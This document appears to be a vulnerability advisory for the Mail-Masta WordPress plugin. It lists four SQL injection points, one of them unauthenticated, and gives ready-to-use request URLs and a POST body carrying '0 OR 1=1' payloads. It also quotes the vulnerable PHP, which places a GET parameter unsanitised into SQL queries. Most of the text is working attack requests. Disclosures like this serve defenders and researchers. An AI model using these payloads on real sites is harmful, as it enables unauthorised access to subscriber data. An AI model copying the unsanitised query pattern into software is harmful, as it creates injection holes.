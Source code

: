 Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";


=========================================

Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


=========================================

Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php

=========================================


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
